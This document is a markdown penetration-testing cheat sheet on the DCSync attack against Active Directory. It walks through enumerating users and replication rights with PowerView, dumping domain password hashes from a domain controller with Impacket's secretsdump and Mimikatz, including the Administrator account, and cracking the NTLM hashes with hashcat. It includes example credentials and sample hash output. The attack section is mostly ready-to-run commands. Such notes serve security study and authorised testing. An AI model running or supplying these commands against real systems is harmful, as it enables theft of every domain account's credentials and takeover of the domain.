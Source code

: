 # Domain Controller Synchronization (dcsync)
## Overview
**DCSync** is an attack that leverages the Directory Replication Service Remote Protocol (DRSR) to impersonate a Domain Controller (DC) and request replication of password data from Active Directory (AD). By abusing the extended rights (specifically, the _DS-Replication-Get-Changes_ and _DS-Replication-Get-Changes-All_ permissions), an attacker can retrieve password hashes (and sometimes even cleartext passwords) for AD accounts.
### 1. Reconnaissance and User Enumeration

**Goal:** Identify the target user and verify their group memberships.
**Sample Command (using PowerView in PowerShell):**

```powershell
Get-DomainUser -Identity adunn | Select-Object samaccountname, objectsid, memberof, useraccountcontrol | Format-List
```

- **What It Does:** Retrieves details about the user (here, “adunn”), including the SID, group memberships, and account control settings.

---

### 2. Verify Replication Rights
Required privileges to perform replication:
        - **Replicating Directory Changes**
        - **Replicating Directory Changes All**
        - **Replicating Directory Changes in Filtered Set**
    - By default, members of the following groups have these rights:
        - Domain Admins
        - Enterprise Admins
        - Administrators
        
**Goal:** Confirm that the target (or another account you control) has the required replication privileges.

**Sample Command (using PowerView):**

```powershell
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"  # Replace with the actual SID
Get-ObjectAcl "DC=yourdomain,DC=com" -ResolveGUIDs |
    Where-Object { $_.ObjectAceType -match 'Replication-Get' } |
    Where-Object { $_.SecurityIdentifier -match $sid } |
    Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType |
    Format-List
```

- **What It Does:** Scans the ACLs on the domain object (e.g., `DC=yourdomain,DC=com`) and filters for ACEs related to replication. Check for entries such as `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` for the target SID.

---

### 3. Executing the DCSync Attack with Impacket’s secretsdump.py

**Goal:** Request replication from the DC and extract sensitive credential data.

**Sample Command (from a Linux or Windows system with Python and Impacket installed):**

```bash
secretsdump.py -outputfile domain_hashes -just-dc YOURDOMAIN/targetUser@targetIP
```

- **Parameters:**
    - `YOURDOMAIN`: Replace with your actual domain name.
    - `targetUser`: The username that has replication privileges.
    - `targetIP`: The IP address of the domain controller.
       
        ```bash
        impacket-secretsdump -just-dc-user <username> <domain>/<admin_user>:<password>@<dc_ip>
        ```
        
    - **Example**:
        
        ```bash
        impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
        ```
        
    - **Result (Extract)**:
        
        ```
        [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
        dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
        ```
        
- **What It Does:** Initiates a replication request mimicking a DC. It writes out the NTLM hashes, Kerberos keys, and, if applicable, cleartext passwords to files prefixed with `domain_hashes`.

**After Running, List the Files:**

```bash
ls domain_hashes*
```

- **Expected Files:**
    - `domain_hashes.ntds` – Contains NTLM hashes.
    - `domain_hashes.ntds.kerberos` – Contains Kerberos keys.
    - `domain_hashes.ntds.cleartext` – Contains any cleartext credentials (if reversible encryption is enabled).

---

### 4. Executing the DCSync Attack with Mimikatz
**Run Mimikatz**
    
    ```bash
    .\mimikatz.exe
    ```
    
    - **Command**: Dump the NTLM hash of a target user:
        
        ```bash
        lsadump::dcsync /user:<domain>\<username>
        ```
        
    - **Example**:
        
        ```bash
        lsadump::dcsync /user:corp\dave
        ```
        
    - **Result (Extract)**:
        
        ```
        Credentials:
            Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
        ```
        
3. **Crack the NTLM Hash**
    
    - **Command**:
        
        ```bash
        hashcat -m 1000 <hash_file> <wordlist> -r <rule_file> --force
        ```
        
    - **Example**:
        
        ```bash
        hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
        ```
        
4. **Dump Domain Admin Hashes**
    
    - Dump credentials of the **Administrator** user:
        
        ```bash
        lsadump::dcsync /user:corp\Administrator
        ```
